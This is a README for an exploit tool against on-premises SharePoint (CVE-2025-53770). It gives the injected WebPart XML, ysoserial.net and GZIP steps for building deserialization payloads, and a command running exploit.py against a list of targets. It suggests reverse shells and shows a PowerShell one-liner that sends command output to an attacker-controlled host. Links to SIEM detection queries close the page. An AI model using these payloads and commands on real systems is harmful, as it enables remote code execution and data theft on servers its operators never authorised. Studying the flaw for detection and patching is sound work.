 # SharePoint WebPart Injection Exploit Tool


| Field               | Value                                                                 |
|--------------------|-----------------------------------------------------------------------|
| **Component**       | Microsoft SharePoint (on-premises)                                    |
| **Endpoint**        | `/layouts/15/ToolPane.aspx`                                           |
| **Parameter**       | `MSOTlPn_DWP`                                                         |
| **Injected Control**| `<Scorecard:ExcelDataSet CompressedDataTable="...">`                 |
| **Vulnerability**   | Insecure deserialization (`BinaryFormatter`, `LosFormatter`, etc.)    |
| **CVE**             | [CVE-2025-53770](https://nvd.nist.gov/vuln/detail/CVE-2025-53770)     |
| **NOTICE**          | [MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  |
---

## How It Works

<p align="center">
  <img src="exploit-flow.png" />
</p>

1. Authenticated users can send POST requests to `/_layouts/15/ToolPane.aspx?DisplayMode=Edit`.

2. The request includes the parameter `MSOTlPn_DWP`, containing an injected **WebPart XML**.

3. Inside the WebPart, the attacker places a `<Scorecard:ExcelDataSet>` component with the `CompressedDataTable` attribute holding a payload:
- Serialized .NET object
- Encoded in Base64
- Compressed using GZIP

4. SharePoint automatically **inflates** and **deserializes** the object using unsafe formatters.

5. If the object contains a valid **gadget chain** (e.g., `ObjectDataProvider`), **arbitrary code** is executed on the server.

## Requirements

- Python 3.x  
- Required Python modules:
```bash
pip install -r requirements.txt
```

* A Base64 GZIP-compressed .NET deserialization payload (see next section)

The payload must be:

* A `.NET DataSet` or similar gadget chain
* Serialized using `LosFormatter` or `BinaryFormatter`
* Base64-encoded
* GZIP-compressed
* Embedded inside this WebPart structure:

```xml
<asp:UpdateProgress ID="UpdateProgress1" runat="server" AssociatedUpdatePanelID="upTest">
  <ProgressTemplate>
    <div class="divWaiting">
      <Scorecard:ExcelDataSet CompressedDataTable="{PAYLOAD}" DataTable-CaseSensitive="false" runat="server" />
    </div>
  </ProgressTemplate>
</asp:UpdateProgress>
```

---

## Generating Payloads (Using `ysoserial.net`)

### Generate the base64 serialized object

```bash
cd ysoserial.net

# compile from source or use Dockerfile

ysoserial.exe -f LosFormatter -g ObjectDataProvider -o base64 -c "calc.exe" > payload.b64
```

> You can replace `calc.exe` with any command — for example, a reverse shell.

---

### Compress with GZIP

```python
import gzip, base64

with open("payload.b64", "rb") as f:
    decoded = base64.b64decode(f.read())
    compressed = gzip.compress(decoded)
    print(base64.b64encode(compressed).decode())
```

> Save the final output into `payload.txt` — this is what you give to the exploit script.

---

## Compatible Gadget Chains

You can use any gadget chain supported by your serialization tool. Common examples include:

* `System.Data.DataSet`
* `System.Data.Services.Internal.ExpandedWrapper`
* `System.Web.UI.LosFormatter`
* `System.Windows.Data.ObjectDataProvider`

> For more, check [ysoserial.net](https://github.com/pwntester/ysoserial.net) 

---

## Output / Echo

This vulnerability **does not return command output** like `ipconfig` in the HTTP response. If you want output:

* Use reverse shell payloads
* Or redirect output via `Invoke-WebRequest`:

```powershell
powershell -c "ipconfig | Invoke-WebRequest -Uri http://your-ip:8000/?d=$(Get-Content -Raw)"
```


## Example Usage

```bash
python3 exploit.py -t targets.txt --file payload.txt --proxy http://127.0.0.1:8080
```

### Arguments:

| Argument           | Description                                           |
| ------------------ | ----------------------------------------------------- |
| `-t` / `--targets` | File containing SharePoint target URLs (one per line) |
| `--file`           | File containing the base64 GZIP-compressed payload    |
| `--proxy`          | (Optional) Burp/ZAP proxy for interception/debugging  |

## SIEM Detection Queries:

| Field               | Value                                                                 |
|---------------------|-----------------------------------------------------------------------|
| **Elastic**         | [EQL](https://github.com/robert-iw3/threat-hunting/blob/main/elastic-security/CVE-2025-53770.md) |
| **Splunk**          | [SPL](https://github.com/robert-iw3/threat-hunting/blob/main/splunk/CVE-2025-53770.md)           |
| **SentinelOne**     | [S1QL](https://github.com/robert-iw3/threat-hunting/blob/main/sentinel_one/spinstall0.aspx.md)   |
| **Sigma**           | [PostExploit](https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_postexploit.yaml) |
| **Sigma**           | [Webshell](https://github.com/robert-iw3/threat-hunting/blob/main/sigma/2025/sharepoint_webshell.yaml)    |
| **MS Sentinel**     | [CVE-2025-53770](https://github.com/robert-iw3/threat-hunting/blob/main/kql/Sentinel/SharePoint%20Vulnerability%20Exploitation%20Attempt%20(CVE-2025-49704%2C%20CVE-2025-49706%2C%20CVE-2025-53770).kql)     |
| **NOTICE**          | [MSRC](https://msrc.microsoft.com/blog/2025/07/customer-guidance-for-sharepoint-vulnerability-cve-2025-53770/)  |
---
